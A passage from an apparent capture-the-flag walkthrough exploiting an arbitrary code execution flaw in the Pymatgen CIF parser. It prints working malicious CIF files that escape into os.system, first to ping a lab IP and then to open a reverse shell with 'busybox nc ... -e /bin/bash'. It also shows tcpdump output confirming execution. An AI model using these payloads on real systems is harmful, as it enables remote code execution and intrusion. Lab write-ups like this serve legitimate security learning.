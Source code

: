 Let's copy the `POC` and modify it to perform a ping to our IP for verification.

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.14.90");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Meanwhile, we'll capture `ICMP` packets to see if the ping is received.

```
tcpdump -i tun0 icmp

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
19:58:04.441986 IP 10.129.235.159 > 10.10.14.90: ICMP echo request, id 2, seq 1, length 64
19:58:04.442015 IP 10.10.14.90 > 10.129.235.159: ICMP echo reply, id 2, seq 1, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
```

The ping was received. Let's proceed to send a reverse shell.

After several attempts, we discovered that the reverse shell works with the payload `busybox nc 10.10.14.90 1234 -e /bin/bash`. For typical reverse shell payloads, visit https://www.revshells.com.

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.14.90 1234 -e /bin/bash");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
